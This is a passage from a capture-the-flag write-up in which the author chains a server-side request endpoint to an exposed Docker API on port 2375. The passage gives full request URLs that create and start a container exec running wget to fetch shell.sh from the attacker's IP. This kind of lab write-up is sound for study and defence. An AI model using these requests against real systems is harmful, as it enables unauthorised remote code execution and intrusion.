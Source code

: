 ![13](/assets/H7_CTF/Pasted_image_20251020120143.png)
- the request endpoint was interesting cause i could make requests to my attacker machine. than i thought, can i send post requests. this holy epic endpoint allowed me to send post requests too using the method parameter.

![14](/assets/H7_CTF/Pasted_image_20251020120406.png)
- **Hurrayyyy** !!! that's all we need to make post request to docker endpoint to run commands.
- to run commands we can make post request to this endpoint `http://localhost:2375/v1.51/containers/<container_id>/exec`

![15](/assets/H7_CTF/Pasted_image_20251020120559.png)
- i used this request endpoint to create a command execution process on the docker via post request. i gave it the command to download a `shell.sh` file from our server. now copy the id that came in response.
- `http://localhost:8090/request?method=post&data={"AttachStdout":true,"AttachStderr":true,"Tty":false,"Cmd":["wget","http://10.17.78.76/shell.sh","-O","/tmp/shell.sh"]}&url=http://localhost:2375/v1.51/containers/0d5c2a6f1cbc/exec`

![16](/assets/H7_CTF/Pasted_image_20251020120841.png)
- now that above request will only create the process. but to start the process, we need to use this request and we need to copy that id came in response and use it in this request.
- `http://localhost:8090/request?method=post&data={"Detach":false,"Tty":false}&url=http://localhost:2375/v1.51/exec/23c960d784dfc329b3672519bd65c93138632d04e133de0bbad7faaa4c6c0fcb/start`
